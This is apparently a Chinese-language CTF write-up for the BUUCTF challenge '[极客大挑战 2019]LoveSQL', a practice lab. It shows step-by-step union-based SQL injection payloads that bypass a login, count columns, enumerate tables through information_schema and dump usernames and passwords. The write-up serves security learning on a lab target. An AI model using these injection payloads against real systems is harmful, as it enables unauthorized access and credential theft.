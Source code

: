 ## [极客大挑战 2019]LoveSQL

**标签：`Union注入`**

> 链接：[[极客大挑战 2019]LoveSQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]LoveSQL)

感觉可以把这个题作为Union注入的一个例题

**尝试 弱口令**

```
admin
1
0
```

行不通，提示错误

**尝试 万能sql**

```
1' or 1=1 #
```

<img src="../../../statics\img\CTF\1.png" style="zoom:50%;" />

哦吼，查出东西来了，说明union这条路可以继续走

这里有回显，但不代表查询的内容就这些（之前文档里提到过），所以按着文档走一遍

**查询 字段数**

```
1' or 1=1 order by 1 #
```

多试几次，发现当 `order by 4`时出现错误

![](../../../statics\img\CTF\2.png)

OK，那说明就查了3个字段，可以放心用`union`了

接下来就要看看回显的字段标号是哪几个，方便我们后面用`union`查询输出内容

```
1' union select 1, 2, 3 #
```

<img src="../../../statics\img\CTF\3.png" style="zoom:50%;" />

舒服了，2和3是回显，挺顺利，继续

**查询 表名**

```
1' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() #
```

<img src="../../../statics\img\CTF\4.png" style="zoom:50%;" />

查到了！后面这个表看着就很奇怪，所以我就先查了一下它`l0ve1ysq1`

**查询表中的字段**

```
1' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1' #
```

<img src="../../../statics\img\CTF\5.png" style="zoom:50%;" />

查到了！感觉快了

**查数据**

```
1' union select 1, group_concat(username), group_concat(password) from l0ve1ysq1 # 
```

<img src="../../../statics\img\CTF\6.png" style="zoom:60%;" />

发现了什么？最后一个用户名字叫`flag`，找到了！

## 总结一下

文档中总结的步骤是很科学的，一环扣一环，每一步得到的东西都是下一步的关键信息，不知道以后还能不能这么坚持写wp，希望吧

**同类型题目**

* [[第一章 web入门]SQL注入-1](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]SQL%E6%B3%A8%E5%85%A5-1)